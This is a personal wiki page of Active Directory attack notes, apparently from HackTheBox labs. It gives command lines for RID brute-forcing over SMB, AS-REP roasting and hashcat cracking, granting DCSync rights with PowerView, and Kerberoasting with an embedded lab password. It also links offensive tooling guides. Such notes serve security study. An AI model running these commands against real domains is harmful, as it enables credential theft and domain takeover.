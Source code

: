 ```yaml
---
layout: wiki
title: Internals - Active Directory Resources
cate1: Internal
cate2: Active Directory
description: Notes about Active Directory
keywords: Internals
---
```


# Active Directory Enumeration
[Rid Brute via SMB](https://medium.com/@e.escalante.jr/active-directory-workshop-brute-forcing-the-domain-server-using-crackmapexec-pt-6-feab1c43d970)

**Requires:** Guest read access to IPC$ (Remote IPC) SMB File Share 
```
nxc smb 10.10.10.192 -u 'guest' -p '' --rid-brute > sid.txt
cat sid.txt | awk -F': ' '{print $2}' | awk '{print $1}' | sed 's/BLACKFIELD\\//' > users.txt
GetNPUsers.py BLACKFIELD/ -usersfile users.txt -format hashcat
hashcat -m 18200 creds.txt /usr/share/wordlists/rockyou.txt
```

# Active Directory Exploitation Strategies
[ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)

[WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)

[Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)

[NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)

[DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
**With PowerView**:
```
whoami /all
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
net group "Exchange Windows Permissions" /add svc-alfresco
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
Get-DomainUser -Identity svc-alfresco
Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
```

[SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)
```gppdecrypt```

[Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)

**Requires:** Domain Credentials

**Targets:** Service Accounts with SPNs registered on the domain to retrieve TGS tickets

`GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100`

-----------------------------------------------------------------------

## Active Directory Tools
[PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
```. .\powerview.ps1```

[BloodHound CE](https://github.com/SpecterOps/BloodHound)

**Installation via Docker:** [BloodHound Community Edition](https://support.bloodhoundenterprise.io/hc/en-us/articles/17468450058267-Install-BloodHound-Community-Edition-with-Docker-Compose)
```
curl -L https://ghst.ly/getbhce | docker compose -f - up
```

**NSE**
```--script smb-os-discovery,smb-enum-shares,smb-enum-users,smb-vuln*```

**SMB**
Enum4Linux
SMBMap
smbclient
smbclient.py (Impacket)
[NetExec - Cheatsheet](https://github.com/BlWasp/NetExec-Cheatsheet)
[SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)

## Impacket Tools
  - **PSExec**
    - Shell access via SMB shares (Pass the Hash) 
  - **GetNPUsers**
    - Kerberos Pre-authentication disabled (ASREPRoasting)
 
## Resources
 - [The Hacker Recipes](https://www.thehacker.recipes/)
 - [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)

